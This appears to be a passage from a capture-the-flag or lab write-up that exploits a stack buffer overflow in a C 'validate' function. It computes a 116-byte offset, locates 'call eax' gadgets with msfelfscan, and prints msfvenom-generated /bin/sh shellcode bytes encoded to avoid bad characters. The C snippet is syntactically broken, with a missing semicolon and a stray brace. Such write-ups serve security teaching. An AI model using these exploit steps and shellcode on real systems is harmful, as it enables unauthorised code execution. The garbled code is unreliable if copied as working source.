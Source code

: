 ```c
char* validate(const char* s){

    int i = 0;
    char* buf[100]

    do{
        if(s[i] == 'F'){
            printf("failed: %x\n",s[i]);
            exit(1);
        }
        i++;
    }while(i < strlen(s))}

    strcpy(buf,s);
    return buf;
}
```     
So by my calculations, our return address should be at offset 116.  IDA shows the top of our stack as EBP+70h, so add an additional
4 bytes for the saved EBP and that will give us the offset to the return address.  That's 74h (aka 116).  So, our padding needs 
to be 116 bytes long followed by our return address then finally our shellcode (without 0x00 or 0x46 being present).  
Last but not least, we need an address to return to.  We will use `msfelfscan` for this, which is basically the same as `msfpescan`
that we uses earlier, but for ELF binaries.

```bash
/usr/share/framework2/msfelfscan -f validate -j esp
```

No joy, no `jmp esp` instruction found within our program.  Lets try another register, the trusty eax.

```bash
/usr/share/framework2/msfelfscan -f validate -j eax
0x080484af   call eax
0x0804862b   call eax
```
Bingo, we have 2 possibilities.

Change of plans, because we don't have a usable `jmp esp` instruction and instead we are using a `call eax` we have to switch the order
of our exploit buffer around.  Our shellcode needs to come first since eax will contain the address of our copied string on the stack.
With that in mind our shell code needs to come in under 116 bytes, or we have to craft a special one that will JMP over our return address
at offset 116 prior to executing our shellcode.  Lets see what msfvenom can come up with.

```bash
msfvenom -p linux/x86/exec -b '\x00\x46'  -f python  CMD=/bin/sh 
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 70 (iteration=0)
x86/shikata_ga_nai chosen with final size 70
Payload size: 70 bytes
Final size of python file: 356 bytes
buf =  ""
buf += "\xba\x4f\xc4\x9c\xf8\xda\xd6\xd9\x74\x24\xf4\x58\x33"
buf += "\xc9\xb1\x0b\x83\xe8\xfc\x31\x50\x11\x03\x50\x11\xe2"
buf += "\xba\xae\x97\xa0\xdd\x7d\xce\x38\xf0\xe2\x87\x5e\x62"
buf += "\xca\xe4\xc8\x72\x7c\x24\x6b\x1b\x12\xb3\x88\x89\x02"
buf += "\xcb\x4e\x2d\xd3\xe3\x2c\x44\xbd\xd4\xc3\xfe\x41\x7c"
buf += "\x77\x77\xa0\x4f\xf7"
```